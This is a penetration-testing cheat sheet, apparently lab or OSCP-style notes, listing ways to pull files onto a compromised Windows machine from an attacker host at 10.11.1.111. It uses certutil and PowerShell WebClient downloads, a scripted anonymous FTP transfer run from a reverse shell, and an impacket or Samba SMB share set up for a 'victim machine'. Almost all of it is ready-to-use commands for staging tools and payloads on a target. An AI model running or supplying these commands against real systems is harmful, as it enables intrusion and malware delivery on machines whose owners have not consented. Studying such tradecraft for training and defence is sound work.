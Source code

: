 ### Windows download with certutil.exe

```
certutil.exe -urlcache -split -f "http://10.11.1.111/Powerless.bat" Powerless.bat
```

### Windows download with powershell

````
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.1.111/file.exe','C:\Users\user\Desktop\file.exe')"

(New-Object System.Net.WebClient).DownloadFile("http://10.11.1.111/CLSID.list","C:\Users\Public\CLSID.list")
````

### Windows Download from FTP

```
# In reverse shell
echo open 10.11.1.111 > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt 
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
ftp -v -n -s:ftp.txt
```

### Windows create SMB Server transfer files

```bash
# Attack machine
python /usr/share/doc/python-impacket/examples/smbserver.py Lab "/root/labs/public/10.11.1.111"

	# Or SMB service 
	# http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html
	vim /etc/samba/smb.conf
		[global]
		workgroup = WORKGROUP
		server string = Samba Server %v
		netbios name = indishell-lab
		security = user
		map to guest = bad user
		name resolve order = bcast host
		dns proxy = no
		bind interfaces only = yes
	
		[ica]
		path = /var/www/html/pub
		writable = no
		guest ok = yes
		guest only = yes
		read only = yes
		directory mode = 0555
		force user = nobody

	chmod -R 777 smb_path
	chown -R nobody:nobody smb_path
	service smbd restart 

# Victim machine with reverse shell
```